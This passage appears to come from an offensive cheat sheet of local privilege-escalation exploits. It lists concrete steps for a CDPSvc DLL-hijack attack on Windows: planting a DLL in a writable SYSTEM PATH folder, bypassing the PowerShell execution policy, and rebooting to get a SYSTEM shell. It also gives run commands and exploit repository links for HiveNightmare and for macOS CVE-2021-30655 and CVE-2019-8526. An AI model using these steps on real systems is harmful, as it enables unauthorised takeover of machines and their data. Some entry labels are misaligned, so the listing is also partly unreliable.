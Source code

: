 Methods:

-   Find Writable SYSTEM PATH with acltest.ps1 (such as C:\\python27)

-   C:\\CdpSvcLPE\> powershell -ep bypass \". .\\acltest.ps1\"

-   Copy cdpsgshims.dll to C:\\python27

-   make C:\\temp folder and copy impersonate.bin to C:\\temp

-   C:\\CdpSvcLPE\> mkdir C:\\temp

-   C:\\CdpSvcLPE\> copy impersonate.bin C:\\temp

-   Reboot (or stop/start CDPSvc as an administrator)

-   cmd wil prompt up with nt authority\\system.

<a name="hivenightmare"></a>
# HiveNightmare

Domain: Yes

Local Admin: Yes

OS: Windows

Type: 0/1 Exploit

Methods:

-   HiveNightmare.exe 200

CVE-2021-30655

Domain: No

Local Admin: Yes

OS: Windows

Type: 0/1 Exploit

Methods:

-   https://github.com/thehappydinoa/rootOS

-   Python rootOS.py

CVE-2019-8526

Domain: No

Local Admin: Yes

OS: Mac

Type: 0/1 Exploit

Methods:

-   [[https://github.com/amanszpapaya/MacPer]{.ul}](https://github.com/amanszpapaya/MacPer)
